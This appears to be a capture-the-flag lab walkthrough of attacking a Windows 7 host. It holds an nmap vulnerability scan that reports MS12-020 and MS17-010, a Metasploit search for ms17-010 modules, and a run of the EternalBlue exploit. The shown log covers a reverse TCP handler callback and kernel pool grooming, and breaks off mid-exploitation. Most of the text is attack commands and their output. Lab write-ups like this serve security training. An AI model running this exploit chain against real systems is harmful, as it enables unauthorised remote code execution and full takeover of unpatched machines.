 # 10.201.77.101

# nmap

oot@ip-10-201-111-150:~# nmap -sV -sC --script vuln -Pn -oN nmap.txt 10.201.77.101 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2025-09-16 01:51 BST
mass*dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.201.77.101
Host is up (0.00047s latency).
Not shown: 911 closed ports, 80 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp open tcpwrapped
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020:
| VULNERABLE:
| MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
| State: VULNERABLE
| IDs: CVE:CVE-2012-0152
| Risk factor: Medium CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
| Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|  
| Disclosure date: 2012-03-13
| References:
| http://technet.microsoft.com/en-us/security/bulletin/ms12-020
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|  
| MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
| State: VULNERABLE
| IDs: CVE:CVE-2012-0002
| Risk factor: High CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
| Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|  
| Disclosure date: 2012-03-13
| References:
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|* http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|\_ssl-ccs-injection: No reply from server (TIMEOUT)
|\_sslv2-drown:
49152/tcp open msrpc Microsoft Windows RPC
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open msrpc Microsoft Windows RPC
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open msrpc Microsoft Windows RPC
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open msrpc Microsoft Windows RPC
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
49160/tcp open msrpc Microsoft Windows RPC
|\_clamav-exec: ERROR: Script execution failed (use -d to debug)
MAC Address: 16:FF:D6:BB:07:01 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|\_smb-vuln-ms10-054: false
|\_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
|  
| Disclosure date: 2017-03-14
| References:
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
| https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.66 seconds

# msfconsole

# msf > search ms17-010

0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
1 \_ target: Automatic Target . . . .
2 \_ target: Windows 7 . . . .
3 \_ target: Windows Embedded Standard 7 . . . .
4 \_ target: Windows Server 2008 R2 . . . .
5 \_ target: Windows 8 . . . .
6 \_ target: Windows 8.1 . . . .
7 \_ target: Windows Server 2012 . . . .
8 \_ target: Windows 10 Pro . . . .
9 \_ target: Windows 10 Enterprise Evaluation . . . .
10 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
11 \_ target: Automatic . . . .
12 \_ target: PowerShell . . . .
13 \_ target: Native upload . . . .
14 \_ target: MOF upload . . . .
15 \_ AKA: ETERNALSYNERGY . . . .
16 \_ AKA: ETERNALROMANCE . . . .
17 \_ AKA: ETERNALCHAMPION . . . .
18 \_ AKA: ETERNALBLUE . . . .
19 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
20 \_ AKA: ETERNALSYNERGY . . . .
21 \_ AKA: ETERNALROMANCE . . . .
22 \_ AKA: ETERNALCHAMPION . . . .
23 \_ AKA: ETERNALBLUE . . . .
24 auxiliary/scanner/smb/smb_ms17_010 . normal No MS17-010 SMB RCE Detection
25 \_ AKA: DOUBLEPULSAR . . . .
26 \_ AKA: ETERNALBLUE . . . .
27 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution
28 \_ target: Execute payload (x64) . . . .
29 \_ target: Neutralize implant . . . .

Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

# set RHOSTS 10.201.46.32

# msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.201.16.245:4444
[*] 10.201.46.32:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.201.46.32:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.201.46.32:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.201.46.32:445 - The target is vulnerable.
[*] 10.201.46.32:445 - Connecting to target for exploitation.
[+] 10.201.46.32:445 - Connection established for exploitation.
[+] 10.201.46.32:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.46.32:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.46.32:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.201.46.32:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.201.46.32:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1  
[+] 10.201.46.32:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.46.32:445 - Trying exploit with 12 Groom Allocations.
[*] 10.201.46.32:445 - Sending all but last fragment of exploit packet
[*] 10.201.46.32:445 - Starting non-paged pool grooming
[+] 10.201.46.32:445 - Sending SMBv2 buffers
[+] 10.201.46.32:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.46.32:445 - Sending final SMBv2 buffers.
[*] 10.201.46.32:445 - Sending last fragment of exploit packet!
[*] 10.201.46.32:445 - Receiving response from exploit packet
[+] 10.201.46.32:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.46.32:445 - Sending egg to corrupted connection.
[*] 10.201.46.32:445 - Triggering free of corrupted buffer.
